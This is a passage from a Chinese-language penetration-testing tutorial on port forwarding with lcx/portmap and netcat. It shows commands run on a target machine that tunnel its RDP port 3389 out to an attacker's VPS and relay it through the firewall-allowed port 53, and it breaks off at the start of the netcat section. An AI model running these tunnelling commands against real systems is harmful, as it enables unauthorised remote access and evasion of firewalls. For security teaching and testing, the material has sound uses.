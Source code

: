 lcx 是一个基于 socket 套接字实现的端口转发工具，有 windows 和 linux 两个版本。

windows 为 lcx.exe，linux 为 portmap。

一个正常的 socket 隧道必须具备两端：

一个服务端，监听一个端口，等待用户的连接。

一个客户端，通过传入服务端的 IP 地址和端口，才能主动与服务器连接。

#### 1、内网端口转发

在目标机器上执行如下命令，将目标 3390 端口的所有数据转发到服务端 VPS 的 444 端口上：

```
lcx.exe -slave 服务端IP 4444 127.0.0.1 3389

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tBnZ5Owls5RZ3Ee7BIB1O5HeTStwRv9eibZMFhP3j1QkUvQNXtk3qjpg/640?wx_fmt=png)

在 Vps 服务端执行如下命令，将本机的 4444 端口上监听的所有数据转发到本机的 5555 端口上：

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tRdz2G541kMUFYF5CesXZWy2rHdDCO8Lwdhe74w35acCphcezI6r5uA/640?wx_fmt=png)

  

这个时候就可以用 mstsc 登陆 VPS 服务端的公网 IP 地址: 5555，或者在 VPS 服务端 mstsc 登陆 127.0.0.1:5555 端口，即可以访问目标服务器的 3389 远程桌面：（但是会很卡！流量很大！）

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tlYaBMDUdUF1qTYkEqPzlzU6102GLOn8VpqZ253V8R4PicfH73LdG2vQ/640?wx_fmt=png)

  

#### 2、本地端口映射

如果目标服务器由于防火墙的限制，部分端口（例如 3389）的数据无法通过防火墙，可以将目标服务器相应端口的数据传到防火墙允许的其他端口（例如 53）。在目标主机上执行如下命令，就可以从桌面连接目标主机的 53 端口：

```
lcx.exe -tran 53 目标主机的IP 3389

```

#### 3.2：netcat

#### 1、netcat 安装下载

netcat 是一款网络中传输数据常用的工具，kali 中默认是 nc。

windows 下载地址：https://eternallybored.org/misc/netcat/

#### 2、简易使用

（1）命令查询

nc 可以使用 nc -h 进行查询命令语法：

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tfibOty5HH2n7LDEP0MvXib46Qf4Ueg24bJlAIpuGibqx0R77ib9n3vBgBA/640?wx_fmt=png)
